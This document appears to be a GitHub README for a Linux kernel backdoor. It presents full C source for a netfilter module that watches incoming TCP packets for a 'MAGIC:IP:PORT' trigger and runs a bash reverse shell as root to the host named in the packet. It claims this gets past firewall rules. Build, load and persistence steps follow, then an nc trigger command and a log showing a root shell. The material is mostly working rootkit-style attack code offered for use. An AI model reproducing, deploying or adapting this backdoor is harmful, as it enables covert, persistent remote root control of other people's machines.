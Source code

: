 # netfilter kernel backdoor

> What is a netfilter?

```
Netfilter is a framework within the Linux kernel that allows for packet filtering, network address translation (NAT), and other network-related manipulations...

More info: https://www.digitalocean.com/community/tutorials/a-deep-dive-into-iptables-and-netfilter-architecture
```

> [!NOTE]
>
> The `POC` provided in this script may not work on different kernels. It has been tested on `Linux 6.12.12-amd64`

This method aims to use `netfilter` to create a kernel loadable module that will be executed automatically once injected. Please note that in `dmesg` (kernel logs), you can find all logs related to the spawning of the reverse shell. Again, this repo does not want to provide `FUD` payloads but just shows basic techniques.

The code that we want to load in the kernel will be similar to this:

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/skbuff.h>
#include <linux/kmod.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/workqueue.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Researcher");
MODULE_DESCRIPTION("Bash Reverse Shell Netfilter Module");

#define MAGIC_PREFIX "MAGIC:"
#define MAGIC_PREFIX_LEN 6

static struct nf_hook_ops nfho;

struct backdoor_work {
    char ip[16];
    char port[6];
    struct work_struct work;
};
static struct workqueue_struct *wq;

static void execute_reverse_shell(struct work_struct *work) {
    struct backdoor_work *bwork = container_of(work, struct backdoor_work, work);
    char cmd[256];
    
    // Create pure bash reverse shell command
    snprintf(cmd, sizeof(cmd), 
             "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'",
             bwork->ip, bwork->port);
             
    char *argv[] = { "/bin/bash", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=xterm", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

    printk(KERN_INFO "Executing reverse shell to %s:%s\n", bwork->ip, bwork->port);
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    kfree(bwork);
}

unsigned int backdoor_hook(void *priv, struct sk_buff *skb, const struct nf_hook_state *state) {
    struct iphdr *iph;
    struct tcphdr *tcph;
    char *data;
    unsigned int data_len;

    if (!skb || skb_linearize(skb) < 0)
        return NF_ACCEPT;

    iph = ip_hdr(skb);
    if (iph->protocol != IPPROTO_TCP)
        return NF_ACCEPT;

    tcph = tcp_hdr(skb);
    data = (char *)((unsigned char *)tcph + (tcph->doff * 4));
    data_len = skb->len - (data - (char *)skb->data);

    if (data_len <= MAGIC_PREFIX_LEN || strncmp(data, MAGIC_PREFIX, MAGIC_PREFIX_LEN) != 0)
        return NF_ACCEPT;

    char *start = data + MAGIC_PREFIX_LEN;
    char *sep = memchr(start, ':', data_len - MAGIC_PREFIX_LEN);
    if (!sep || (sep - start) >= 16)
        return NF_ACCEPT;

    char ip[16] = {0};
    char port[6] = {0};
    unsigned int ip_len = sep - start;
    unsigned int port_len = data_len - (sep - data) - 1;
    
    if (port_len >= sizeof(port))
        return NF_ACCEPT;

    memcpy(ip, start, ip_len);
    memcpy(port, sep + 1, port_len);
    ip[ip_len] = '\0';
    port[port_len] = '\0';

    printk(KERN_INFO "[+] Received MAGIC payload: %s:%s\n", ip, port);

    // Schedule work for safe execution
    struct backdoor_work *bwork = kmalloc(sizeof(*bwork), GFP_ATOMIC);
    if (!bwork) {
        printk(KERN_ERR "Failed to allocate work struct\n");
        return NF_ACCEPT;
    }
    
    strscpy(bwork->ip, ip, sizeof(bwork->ip));
    strscpy(bwork->port, port, sizeof(bwork->port));
    INIT_WORK(&bwork->work, execute_reverse_shell);
    
    if (!queue_work(wq, &bwork->work)) {
        printk(KERN_WARNING "Work already queued, freeing\n");
        kfree(bwork);
    }

    return NF_ACCEPT;
}

static int __init backdoor_init(void) {
    // Create workqueue
    wq = create_singlethread_workqueue("reverse_shell_wq");
    if (!wq)
        return -ENOMEM;

    // Register netfilter hook
    nfho.hook = backdoor_hook;
    nfho.hooknum = NF_INET_PRE_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    nf_register_net_hook(&init_net, &nfho);
    
    printk(KERN_INFO "[*] Reverse shell module loaded\n");
    return 0;
}

static void __exit backdoor_exit(void) {
    nf_unregister_net_hook(&init_net, &nfho);
    if (wq) {
        flush_workqueue(wq);
        destroy_workqueue(wq);
    }
    printk(KERN_INFO "[-] Reverse shell module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
```

# How does it work?

Basically, what we're doing is intercepting TCP packets at a low level and extracting some info from each packet. The TCP packet payload will look like this: MAGIC:IP:PORT. So when there is an incoming connection, the module will start to inspect the TCP payload and check if it matches the already described pattern. If yes, an attempt to spawn a reverse shell on a specified IP and PORT will be tried. We can bypass firewall rules as checks by Netfilter are done before reaching any firewall rule.


> [!TIP]
>
> When debugging the kernel module you can use `sudo dmesg -Tw` for retrieving kernel logs interactively. To check if the module is loaded you can use `lsmod | grep "netfilter_backdoor"`

# Exploit 

1. Compile and load the module using the provided [Makefile](Makefile)

```bash
make clean 
sudo make remove # if loaded previously
sudo make # compile and load at runtime
sudo make install # make the module persistent for system rebooting, do this only if everything go well
```

other commands

```bash
sudo make remove # remove module loaded at runtime
sudo make uninstall # remove module from booting 
```

2. Obtain a shell 

- Use `echo -n "MAGIC:REV_SHELL_HOST:REV_PORT" | nc TARGET_IP WHATEVER_OPENED_PORT`

> [!IMPORTANT]
>
> Remember to specify an opened port on the remote service. The most common opened port is `53` for `DNS`.
> If you don't specify an opened port you will get
> ```
> (UNKNOWN) [192.168.1.35] 80 (http) : Connection refused
> ```
> `sudo netstat -tupln` will return a list of opened ports.

```bash
listening on [any] 7777 ...
connect to [172.28.109.117] from (UNKNOWN) [172.28.96.1] 20126
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
┌─[root@parrot]─[/]
└──╼ #whoami
whoami
root
┌─[root@parrot]─[/]
└──╼ #
```
